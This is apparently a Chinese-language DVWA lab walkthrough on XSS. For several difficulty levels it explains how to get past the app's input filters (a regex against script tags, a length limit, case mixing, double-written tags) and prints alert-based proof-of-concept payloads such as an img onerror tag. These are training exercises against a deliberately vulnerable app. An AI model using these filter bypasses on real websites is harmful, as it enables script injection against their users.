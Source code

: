 ##### 考点：绕过正则表达式

无法使用\<script\>标签注入XSS代码，因此可以通过用：\<img\>\<iframe\>\<a\>等标签注入

```
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'
```

##### 思路：绕过后，直接注入XSS

**payload：**

```
<img src=1 onerror=alert(/xss/)>
```



### [DVWA]（Stored）存储型

#### Low级别

##### 考点：修改注入长度，或者bp改包

##### 思路：突破长度限制，直接注入XSS

**payload：**

```
<script>alert(/xss/)</script>
```



#### Medium级别

##### 考点：双写绕过\<script\> 或 大小写绕过

##### 思路：双写绕过\<script\>被BAN的\<script\>

**payload：**

```
<sc<script>ript>alert(/xss/)</script>		//双写
<Script>alert(/xss/)</script>		//大小写
```



#### High级别

##### 考点：绕过正则表达式

##### 思路：绕过，直接注入XSS

**payload：**

```
<img src=1 onerror=alert(/xss/)>
```
